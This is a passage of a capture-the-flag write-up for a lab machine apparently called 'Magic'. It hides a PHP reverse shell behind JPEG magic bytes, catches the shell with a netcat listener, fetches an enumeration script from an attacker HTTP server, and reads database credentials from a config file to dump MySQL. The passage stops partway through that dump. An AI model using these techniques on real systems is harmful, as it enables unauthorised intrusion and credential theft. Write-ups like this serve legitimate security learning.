 ![Echo hello]({{ site.baseurl }}/assets/images/magic/hello.png "Echo hello")

Well hello there. I already removed the most of the jpg bytes, till we're only left with the jpg magic bytes.

> FF D8 FF E0 00 10 4A 46 49 46 00 01 ÿØÿà..JFIF..

Let's get our Reverse Shell (/usr/share/webshells/php/php-reverse-shell.php)

```
nc -lvp 443
```

And after browsing to our "image", we're greeted in our shell with:
```
www-data
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

The user.txt is located in `/home/theseus`.  
First transfer a enum script:

```bash
python3 -m http.server
wget http://x.x.x.x:8000/linenum.sh
```

Not much interesting stuff here, except:

Netstat says there are two internal ports: 631 (CUPS) and 3306 (mysql)
```
netstat -tupln
```

Okay a database? Let's look the in the login.php, as it should probably access the database.  
The login.php has no login data, but includes `db.php5`.  
In there we find:

```
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

Let's dump the Magic database with `mysqldump`.

>mysqldump Magic -u theseus -p

```sql
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--
```